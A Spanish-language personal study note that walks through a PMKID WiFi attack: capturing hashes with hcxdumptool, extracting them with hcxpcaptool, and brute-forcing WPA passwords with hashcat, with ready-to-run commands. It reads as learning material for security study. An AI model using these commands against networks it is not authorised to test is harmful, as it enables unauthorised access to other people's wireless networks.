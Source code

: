 Con esta herramienta podemos capturar los hashes de los AP con el [[PKMID]] al igual que on bettercap.

Esta herramienta es muy grande, asi que estaria bien hecharleun vistazo mas adelante.

	hcxdumptool -i wlan0mon -o CapturaPMK --enable_status=1  

-o *Archivo de captura*
--enable_status *Paramtro obligatorio, (Paradero desconocido)*

**Importante:** Actualmente la herramienta marcar unos *warnings* al hacer el compile que menciona en el [repositorio](https://github.com/ZerBea/hcxdumptool)

Pero en caso de ser corregida puede continuar con la herramienta hcxpcaptool, esto nos ayuda a extrar los hashes capturados.

	hcxpcaptool -z myHashes Captura

-myHashes *Es el archivo donde se almacenara el output*

Estos hashes son a los que se le aplicaria fuerza bruta, esto lo podemos hacer con [[Ciberseguidad/Hacking Wifi/Ataques Fuerza Bruta/Fuerza Bruta Handshake/Jhon the ripper | JhonTheRipper]] o con [[Ciberseguidad/Hacking Wifi/Ataques Fuerza Bruta/Fuerza Bruta Handshake/HashCat | HashCat]].

Por ejemplo con hashcat se haria de la siguiente forma, primero hay que indicarle a hashcat que tipo de hash

	hashcat --example-hashes | grep "16800" -C 1

-16800 *Identificador del tipo de hash*

En este caso el identificador es el *16800* que corresponde al tipo de hash *WPA-PMKID-PBKDF2*, por lo tanto sabiendo esto aplicariamos la fuerza bruta.

	hashcat -m 16800 -a 0 myHashes dic.txt

-m *Identificador del tipo de hash a tratar*
-a 0 *Indicamos que realizamos un ataque de fuerza bruta*

En caso de romper los hashes podemos ver los contraseñas.

	hashcat -m 16800 --show myHashes


